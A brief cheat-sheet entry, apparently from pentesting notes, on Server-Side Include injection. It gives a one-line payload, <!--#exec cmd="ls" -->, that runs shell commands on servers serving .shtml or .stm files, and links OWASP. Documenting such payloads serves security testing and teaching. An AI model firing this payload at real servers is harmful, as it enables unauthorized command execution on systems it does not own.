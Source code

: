 ## SSI (Server-Side Include)
If you find `.shtml` or `.stm`, you can execute code with comments:
```html
<!--#exec cmd="ls" -->
```
Reference: https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection
